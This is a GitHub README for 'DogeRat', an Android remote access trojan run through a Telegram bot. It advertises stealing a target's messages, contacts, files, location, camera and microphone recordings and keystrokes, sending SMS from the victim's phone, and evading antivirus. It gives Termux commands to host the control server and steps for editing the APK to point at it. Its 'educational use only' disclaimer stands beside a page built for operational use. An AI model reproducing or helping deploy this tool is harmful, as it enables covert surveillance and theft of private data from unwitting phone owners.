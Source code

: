 ![Logo](https://dogelina.com/dogs/logo.png)
<p align="center">
  <i>A multifunctional Telegram based Android RAT without port forwarding</i>
</p>



<h2 align="center">Panel Screenshot</h2>
<p align="center">
  <img src="https://dogelina.com/dogs/scr.jpg" alt="Logo" />
</p>


## Features
- 🔴 Real time
- 🌐 custom web view
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
- 📡 receive information about simcard provider
- 📳 vibrate target device
- 🛰️ receive device location
- ✉️ receive all target message
- ✉️ send sms with target device to any number
- ✉️ send sms with target device to all of his/her contacts
- 👤 recive all target contacts
- 💻 receive list of all installedd apps in target device
- 📁 receive any file or folder from target device
- 📁 delete any file or folder from target device
- 📷 capture main and front camera
- 🎙 capture microphone (with custom duration)
- 📋 receive last clipboard text
- ✅️ auto start after device boot
- 🔐 Keylogger {Availbe in apk v1 and v2}
- ✨ Beautiful telegram bot interface
-🤖 Undetectable by antivirus
<h2>Requirements</h2>
<ul>
  <li><span style="color: #0074D9;">APK EDITOR</span></li>
  <li><span style="color: #2ECC40;">TERMUX</span></li>
  <li>For hosting server code, you can use some free services like:</li>
  <ul>
    <li><a href="https://replit.com/" style="color: #FF4136;">replit.com</a></li>
    <li><a href="https://glitch.com/" style="color: #FFDC00;">glitch.com</a></li>
    <li><a href="https://heroku.com/" style="color: #B10DC9;">heroku.com</a></li>
  </ul>
  <p align="center">
  <a href="https://shivaya-dav.github.io/dogeweb/">
    <img src="https://img.shields.io/badge/📹%20VIDEO%20TUTORIALS%20AVAILABLE%20HERE-blue?style=for-the-badge" alt="Video Tutorials Available Here" />
  </a>
</p>
  <li>Keep in mind that these sites can suspend your projects, so it's better to host on your own computer.</li>
  
</ul>

<h2 align="center">Download</h2>

<p align="center">
  <a href="https://cybershieldx.com/termux.apk">
    <img src="https://img.shields.io/badge/Termux%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download Termux" />
  </a>
  <a href="https://cybershieldx.com/editor.apk">
    <img src="https://img.shields.io/badge/APK%20Editor%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download APK Editor" />
  </a>
</p>


## How to host server in Termux 
<p>Run the following commands in Termux:</p>



```bash  
  pkg update $$ upgrade -y
  pkg install git -y
  git clone https://github.com/shivaya-dav/DogeRat 
  cd DogeRat
  bash start.sh
Enter your bot token 
Enter your chatid 
And hit enter
Now open a new Tab, and give these commands
pkg install openssh
bash port.sh 
Enter your telegram username And hit enter 
Copy url and minimize the termux
```

## Edit apk
 - Open Apk editor 
 - select apk
 - choose full edit
 - select decode all files
 - go to assets folder
 - open host.json
 - and enter url
 - in socket replace url https to wss 
 - build apk ,start the bott  Enjoy

## example
```bash  
  { 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```


<h2 align="center">🔗 Contact and Social Media Accounts</h2>

<p align="center">
  <a href="https://t.me/CyberShieldX">
    <img src="https://img.shields.io/badge/CONTACT-TELEGRAM-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://instagram.com/CyberShieldX">
    <img src="https://img.shields.io/badge/CONTACT-INSTAGRAM-red?style=for-the-badge&logo=instagram" alt="Instagram Badge"/>
  </a>
  <a href="https://twitter.com/CyberShieldX">
    <img src="https://img.shields.io/badge/CONTACT-TWITTER-blue?style=for-the-badge&logo=twitter" alt="Twitter Badge"/>
  </a>
  <a href="https://www.youtube.com/channel/UCIQVMD1wD0M02V2JbVP_KrA">
    <img src="https://img.shields.io/badge/CONTACT-YOUTUBE-red?style=for-the-badge&logo=youtube" alt="Youtube Badge"/>
  </a>
</p>


<p align="center">
  <img src="https://img.shields.io/badge/Disclaimer-Important-red" alt="Important Disclaimer"/>
</p>

<p align="center">
  <b><i>Note:</i></b> The developer provides no warranty with this software and will not be responsible for any direct or indirect damage caused by the usage of this tool. Dogerat is built for educational and internal use only.
</p>

<p align="center">
  <b><i>Attention:</i></b> We do not endorse any illegal or unethical use of this tool. The user assumes all responsibility for the use of this software.
</p>

<p align="center">
  <b><i>Important:</i></b> To prevent any fraudulent activity, please ensure that the Instagram username is <a href="https://instagram.com/CyberShieldX"><code>@CYBERSHIELDX</code></a> and the Telegram handle is <a href="https://t.me/CyberShieldX"><code>@CYBERSHIELDX</code></a>. Beware of scams and phishing attempts that use similar usernames or handles.
</p>

<p align="center">
  <b><i>Thank you for using Dogerat - we hope it serves its intended purpose and helps you achieve your goals!</i></b>
</p>




<h2 align="center">🍻  Support 🍻</h2>

<p align="center">
  <a href="https://www.buymeacoffee.com/yourusername">
    <img src="https://img.shields.io/badge/-Buy%20Me%20a%20Coffee-orange?style=for-the-badge&logo=buy-me-a-coffee&logoColor=white" alt="Buy Me A Coffee"/>
  </a>
</p>

<p align="center">Support this project with cryptocurrency:</p>

<p align="center">
  Bitcoin: 1LeLwYyDHu51875aenZaNcEnMrEbHwEKJd<br>
  USDT TRC20: TWX456AoupoYKwCYUKk3ZMWJtNJZRRHnrp
</p>


<h3 align="center">❤️ Thank you Supporters ❤️</h3>

<p align="center">
  <a href="https://github.com/shivaya-dav/DogeRat/stargazers">
    <img src="https://img.shields.io/github/stars/shivaya-dav/DogeRat?style=for-the-badge&color=yellow" alt="Stargazers repo roster on GitHub"/>
  </a>
</p>
